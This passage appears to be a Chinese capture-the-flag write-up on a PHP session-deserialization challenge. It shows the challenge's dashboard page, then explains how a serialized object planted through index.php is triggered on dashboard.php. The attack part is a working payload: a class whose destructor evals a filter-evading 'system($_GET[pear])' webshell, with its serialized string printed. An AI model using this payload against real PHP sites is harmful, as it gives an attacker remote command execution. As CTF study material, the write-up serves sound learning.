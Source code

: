 ```php
    <title>任何人都可以登录的平台</title>
    <style>
        body {
            background-color: #f0f4f8;
            font-family: Arial, sans-serif;
            display: flex;
            flex-direction: column;
            align-items: center;
            justify-content: center;
            height: 100vh;
            margin: 0;
            text-align: center;
        }
        h1 {
            color: #333;
            margin-bottom: 20px;
        }
        p {
            color: #555;
            font-size: 18px;
            margin: 0;
        }
        .session-info {
            background-color: #fff;
            border-radius: 10px;
            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
            padding: 20px;
            width: 300px;
            margin-top: 20px;
        }
    </style>
</head>
<body>
    <h1>欢迎来到任何人都可以登录的平台</h1>
    <div class="session-info">
        <p>你好，<?php echo htmlspecialchars($_SESSION['user']); ?>！</p>
    </div>
</body>
</html>
```

很明显这是一个Session反序列化的题目，结合session的工作过程(第一次访问时，会将`$_SESSION`的数据序列化存在文件中，然后后面访问的时候，服务端会将文件中的内容反序列化返回)，首先可以确定我们的payload要通过`index.php`上传上去，然后再访问`dashboard.php`，然后就可以看到反序列化后的内容了。当然序列化的主体部分一定是notouchitscalss的内容。
```php
<?php
class notouchitsclass {
    public $data;
    public function __construct($data) {
        $this->data = $data;
    }
    public function __destruct() {
        eval($this->data);
    }
}
$payload = new notouchitsclass(0);
$payload->data = '("sys"."tem")($_GET[pear]);';
echo serialize($payload);

# O:15:"notouchitsclass":1:{s:4:"data";s:27:"("sys"."tem")($_GET[pear]);";}
```
